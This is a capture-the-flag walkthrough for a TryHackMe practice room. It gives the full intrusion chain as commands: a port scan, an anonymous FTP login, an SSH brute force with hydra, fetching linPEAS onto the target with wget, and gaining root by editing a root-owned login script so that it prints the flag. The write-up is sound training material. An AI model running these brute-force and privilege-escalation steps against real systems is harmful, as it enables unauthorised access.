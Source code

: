 # Bounty Hacker

## Disclaimer

This writeup is for a room located on **TryHackMe**. If you would like to attempt the room, please visit it [here](https://tryhackme.com/room/cowboyhacker).

## Description

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!

# Task 1

Deploy the machine by clicking the **Deploy** button.

# Task 2

After the machine has finished booting up, run the following command to reveal the open ports on the network (If using personal Linux machine, remember to use **OpenVPN**):

```
nmap -sV -sC -Pn
```

After nmap is finished scanning, our output shows three open ports:

```
21 | ftp
22 | ssh
80 | http
```

# Task 3

Hint: Have you visited ftp?

Thanks to this hint, we know to use the ftp server that we found in the nmap scan. So for this to work, we need to use the following command:

```
ftp ${MachineIP}
```

To log into the ftp server, we will be using the **anonymous** username to access the ftp server. This was mentioned in the nmap scan.

After searching around the ftp, we find a file within the **dir** directory. We notice there's a text file called **task.txt**. We can view this file directly in the ftp terminal using the following command:

```
get task.txt -
```

We now have our username!

After finding this **task.txt** file, we will notice there is another file called **locks.txt**, and it looks like a bunch of strange passwords. Let's use the get command again to save this on our machine for a future task.

```
get locks.txt
```

# Task 4

Hint: What is on port 22?

This task is just looking for the service running on **port 22** (Check nmap scan output).

# Task 5

Hint: Hydra may be able to help.

Since we discovered the username, we can now ssh, but where is the password?

Remember that **locks.txt** file we discovered earlier in the ftp? It's now time to scan the file and find the password for our user!

Since the question mentions hydra, we are going to be using this command to find any available passwords for the user:

```
hydra -t 4 -V -l ${User} -P /usr/share/wordlists/locks.txt ssh://${machineIP}
```

Now that we've obtained the password, let's move on to finding the user.txt file for task 6!

# Task 6

To begin accessing the system, we have to ssh in with our credentials. We can use the following command to gain access:

```
ssh ${user}@${MachineIP}
```

We're in!

We can also run this within the targets terminal to see if we have root privileges:

```
sudo -l
```

After we run a simple command to see the available items in the directory, we see the **user.txt** file, which has our first flag!

Commands:

```
ls
cat user.txt
```

# Task 7

All that's left is to find the **root.txt** and complete the CTF!

The easiest way to accomplish this is by using **linPEAS** & a **python server**, so we're gonna start by getting a python server up and running with this command (Remember to do this in your root terminal, not as the user!):

```
sudo python3 -m http.server 80
```

Now to actually obtain the script. We need to create a directory (I called mine LinEnum), wget the actual linPEAS script from the GitHub repository, and then transfer the file over to the target machine to run the exploit.

Here are the commands I used (This can be done multiple ways):

```
mkdir LinEnum
cd LinEnum
wget "https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh"
```

Now we need to move back over to the users terminal, and we now have it saved on our server, so let's move it over to the target machine (Remember to use this command in the target's terminal).

Note: If using the THM cloud Kali Linux machine, the PrivateIP is available [here](https://tryhackme.com/my-machine).

```
wget "http://${PrivateIP}/linpeas.sh"
```

To make our **linPEAS** script executable, we simply do this command (Notice the color change when we run this command):

```
chmod +x linpeas.sh
```

**Time to run the script!**

```
./linpeas.sh
```

After a few minutes, the script should finish running on the target machine. After sifting through all the returned results, we see a file called **/etc/update-motd.d/00-header** (Notice how it's highlighted).

After locating this file, it's time to change the directory over to it:

```
$ cd /etc/update-motd.d
$ ls -la
```

This will show us that the **00-header** file we found is actually owned by root.

The easiest way to do this is by using **nano**:

```
nano 00-header
```

Now that we have the file open, let's edit the file so that the next time we log in through **ssh**, we will see the **root.txt**!

For this, we just need to add the following command at the very bottom of the open file:

```
cat /root/root.txt
```

**ctrl + x to save the file**

After completing all the above tasks, all we have to do is log out of the ssh shell and log back in. You'll see the **root.txt** flag is located directly in the login terminal screen!

```
ssh ${user}@${MachineIP}
```

# Congratulations!

Shoutout to [Sevuhl](https://tryhackme.com/p/Sevuhl) for creating such a cool room!

# Extra

This room is based on an anime called **Cowboy Bebop** (One of my favorites!). You can check it out [here](https://www.imdb.com/title/tt0213338/).

## YouTube Version

I will be posting a video covering this writeup very soon!
